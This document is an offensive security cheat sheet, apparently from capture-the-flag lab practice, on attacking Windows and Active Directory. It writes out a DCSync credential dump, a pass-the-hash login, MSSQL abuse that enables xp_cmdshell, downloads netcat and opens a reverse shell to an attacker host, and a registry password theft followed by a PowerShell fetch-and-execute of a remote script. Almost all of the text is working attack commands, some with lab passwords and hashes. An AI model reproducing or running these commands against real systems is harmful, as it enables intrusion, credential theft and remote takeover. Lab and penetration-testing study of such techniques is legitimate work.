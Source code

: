 # 26. DCSync Attack - Active Directory

```bash
secretsdump.py -just-dc mrlky:Football#7@10.10.10.103
wmiexec.py -hashes :f6b7160bfc91823792e0ac3a162c9267 Administrator@10.10.10.103

```

# MYSQL for Windows - mssqlclient.py (Impacket)

```bash
mssqlclient.py WORKGROUP/reporting:PcwTWTHRwryjc\$c6@10.10.10.125 -db volume -windows-auth
# Pilhar Hashes
kali@kali: >     responder -I tun0
target@10.10.10.10: >     xp_dirtree '\\10.10.14.6\javali'
# Abilitar RCE
target@10.10.10.10: >     xp_cmdshell "whoami"
target@10.10.10.10: >     sp_configure "show advanced options",1
target@10.10.10.10: >     reconfigure
target@10.10.10.10: >     sp_configure "xp_cmdshell", 1
target@10.10.10.10: >     reconfigure
target@10.10.10.10: >     xp_cmdshell "whoami"


# Download Files
target@10.10.10.10: >     xp_cmdshell "powershell Invoke-WebRequest http://10.10.14.4:8000/nc.exe -o C:\Windows\Temp\nc.exe"
target@10.10.10.10: >     xp_cmdshell "start /b C:\Windows\Temp\nc.exe -e cmd 10.10.14.4 444"  # Get reverse shell cmd

```

# Windows AutoLogin - powershell ==>> reverse shell + change user

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
#	...
#	LastUsedUsername    REG_SZ    Administrator
#	DefaultPassword    REG_SZ    3130438f31186fbaf962f407711faddb
hostname
#	BART
$username = "BART\Administrator"
$password = "3130438f31186fbaf962f407711faddb"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = New-Object -TypeName System.Management.Automation.PSCredential -argumentlist $username, $secstr
$command = {IEX(New-Object Net.WebClient).downloadString("http://10.10.14.4:80/IP2.ps1")}
Invoke-Command -ScriptBlock $command -Credential $cred -ComputerName localhost


```

# 27. Usefull Softwares

> evil-winrm <br> PowerSploit (GitHub) <br> wesng (github) <br> ldapdomaindump (github) <br> winrm_shell (GitHub Alamot) <br> Ghostpack-CompliedBinaries Rubeus.exe (Github)
